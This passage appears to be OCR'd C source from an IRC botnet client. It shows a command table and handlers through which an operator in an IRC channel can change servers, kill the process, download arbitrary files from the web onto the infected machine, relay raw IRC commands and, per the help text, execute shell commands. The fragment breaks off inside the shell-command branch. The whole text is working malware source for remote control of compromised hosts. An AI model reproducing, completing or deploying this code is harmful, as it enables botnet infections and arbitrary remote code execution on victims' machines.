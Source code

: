     if (argc < 1) {
        send_msg(sock, "PRIVMSG %s :MOVE <server>\n", sender);
        exit(1);
    }
    server = strdup(argv[1]);
    changeservers = 1;
    close(sock);
}

void killd(int sock, char *sender, int argc, char **argv) {
    kill(0, 9);
}

void help(int sock, char *sender, int argc, char **argv) {
    if (mfork(sender) != 0) return;
    send_msg(sock, "NOTICE %s :NICK <nick>                                      = Changes the nick of the client\n", sender);
    send_msg(sock, "NOTICE %s :SERVER <server>                                  = Changes servers\n", sender);
    send_msg(sock, "NOTICE %s :KILL                                             = Kills the client\n", sender);
    send_msg(sock, "NOTICE %s :GET <http address> <save as>                     = Downloads a file off the web and saves it onto the hd\n", sender);
    send_msg(sock, "NOTICE %s :HELP                                             = Displays this\n", sender);
    send_msg(sock, "NOTICE %s :IRC <command>                                    = send_msgs this command to the server\n", sender);
    send_msg(sock, "NOTICE %s :SH <command>                                     = Executes a command\n", sender);
    exit(0);
}

struct FMessages {
    char *cmd;
    void (* func)(int, char *, int, char **);
} flooders[] = {

    { "NICK", nickc},
    { "SERVER", move},
    { "GET", get},
    { "KILL", killd},
    { "HELP", help},

    { (char *) 0, (void (*)(int, char *, int, char **))0}
};

void _PRIVMSG(int sock, char *sender, char *str) {
    int i;
    char *to, *message;
    for (i = 0; i < strlen(str) && str[i] != ' '; i++);
    str[i] = 0;
    to = str;
    message = str + i + 2;
    for (i = 0; i < strlen(sender) && sender[i] != '!'; i++);
    sender[i] = 0;
    if (*message == '!' && !strcasecmp(to, chan)) {
        char *params[12], name[1024] = {0};
        int num_params = 0, m;
        message++;
        for (i = 0; i < strlen(message) && message[i] != ' '; i++);
        message[i] = 0;
        if (strwildmatch(message, nick)) return;
        message += i + 1;
        if (!strncmp(message, "IRC ", 4)) send_msg(sock, "%s\n", message + 4);
        if (!strncmp(message, "SH ", 3)) {
            char buf[1024];